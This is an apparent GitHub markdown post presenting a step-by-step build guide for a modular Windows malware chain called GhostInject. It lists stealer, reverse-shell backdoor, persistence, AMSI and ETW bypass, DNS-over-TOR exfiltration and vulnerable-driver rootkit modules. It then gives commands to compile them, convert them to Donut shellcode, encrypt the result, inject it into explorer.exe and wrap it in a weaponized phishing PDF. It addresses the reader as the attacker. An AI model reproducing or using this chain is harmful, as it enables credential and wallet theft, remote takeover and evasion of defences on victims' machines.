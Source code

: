 ```yaml
---
layout: post
title: "GhostInject Modular Framework"
date: 2025-05-03 12:00:00 +0000
---
```



# How Malware Works — Modular Malware Build System (Ghost Inject Chain)

This is your  **end-to-end ATP-grade modular build system** , where each layer of the malware is designed to  **operate in memory** ,  **evade EDRs** , and  **maintain OPSEC with layered encryption and injection** .

---

## ⚙️ Step 1: Design Your Modular Core

The `stealer/` directory holds all modules compiled into one final malware EXE.

```
stealer/
├── stealer.c       # Core logic — wallet drainer, browser stealer, clipwatcher
├── backdoor.c      # Reverse shell, TOR beacon, DNS callback
├── persistence.c   # WMI Timer, RunKey, Task Scheduler, DLL hijack
├── evasion.c       # AMSI bypass, ETW patch, syscall mapping, unhookers
├── c2.c            # DNS-over-TOR beacon logic, fallback IP rotation
├── injector.c      # Elevation logic, drops + loads vulnerable driver
├── rootkit.sys     # Kernel-mode stealth payload (SSDT hooks, hide files/processes)
```

✅ These are **linked into a single standalone payload** that can self-operate in memory.

---

## 🔨 Step 2: Compile Modular Payload → `loader.exe`

```bash
x86_64-w64-mingw32-gcc stealer.c backdoor.c persistence.c evasion.c c2.c injector.c -o loader.exe -static
```

💡 This produces a **standalone EXE** with all modules embedded. **Stealth-resident.**

---

## 🍡 Step 3: Convert EXE → Shellcode with Donut

```bash
donut.exe loader.exe -o loader.bin
```

* `loader.bin` is now  **Donut shellcode format** , suitable for raw memory injection
* Executes  **in memory** , bypassing disk-based AV/EDR

---

## 🔐 Step 4: Encrypt with CryptexX

```bash
CryptexX.exe loader.bin -o cryptexx.enc -p "UltraKey123!" -bind -hwid -window
```

This adds:

* **AES+XOR dual-layer encryption**
* **HWID locking** (only runs on target machine)
* **Time window** (expire after X days)
* **Loader hash binding** (anti-repacker)

Result: `cryptexx.enc` — fully encrypted + metadata-wrapped payload.

---

## 👻 Step 5: Stub Creation with GhostInject

```bash
GhostStubBuilder.exe cryptexx.enc UltraKey123! explorer.exe -o GhostInject.exe
```

* Creates a **RAM-only loader**
* Injects into **explorer.exe** using **direct syscalls**
* Executes **decrypted shellcode** in memory
* Leaves **zero disk trace**

✅ `GhostInject.exe` is your  **memory-only ATP loader** .

---

## 💣 Step 6: Weaponized Dropper Creation

```bash
python3 dropper.py --input GhostInject.exe --output payload.pdf --template clean_decoy.pdf
```

* Wraps `GhostInject.exe` into **PDF or Office file**
* Uses **macro, JS, or CVE-based exploits**
* Drops and executes  **in memory** , loads CryptexX payload

✅ `payload.pdf` = weaponized phishing file.

---

## 🧼 Malware Execution Chain Summary

```
User opens ➔ payload.pdf
         ➔ Dropper activates
         ➔ Drops GhostInject (RAM-only)
         ➔ GhostInject decrypts cryptexx.enc
         ➔ Donut loader.bin is injected into explorer.exe
         ➔ explorer.exe now runs:
             ├─ stealer.c         (wallets, creds)
             ├─ backdoor.c        (reverse shell)
             ├─ persistence.c     (startup stealth)
             ├─ evasion.c         (AMSI, ETW bypass)
             ├─ c2.c              (exfil via DNS/TOR)
             └─ injector.c        (if admin: drop + map rootkit)
                                  ├─ driver.sys     (signed vuln driver: RTCore64, GDRV)
                                  └─ rootkit.sys    (loaded into kernel memory)
```

---

## ✅ Final Output Map

| Stage             | File                | Description                         |
| ----------------- | ------------------- | ----------------------------------- |
| Build             | `loader.exe`      | Combined malware logic EXE          |
| Shellcode         | `loader.bin`      | Donut shellcode format              |
| Encrypted Payload | `cryptexx.enc`    | AES+XOR+metadata+HWID locked blob   |
| Memory Loader     | `GhostInject.exe` | RAM-only syscall injector           |
| Delivery File     | `payload.pdf`     | Weaponized phishing delivery        |
| Rootkit Payload   | `rootkit.sys`     | Kernel-mode SSDT hooker/AV killer   |
| Signed Driver     | `driver.sys`      | Vulnerable signed driver for loader |

---

## 🔥 You Now Control:

* Modular credential + wallet stealer
* Full remote access via backdoor
* Memory-only loader chain (zero disk trail)
* Kernel-mode rootkit injection (Ring 0)
* TOR/DNS exfil with fallback rotation
* HWID-bound encryption with time kill-switch

---

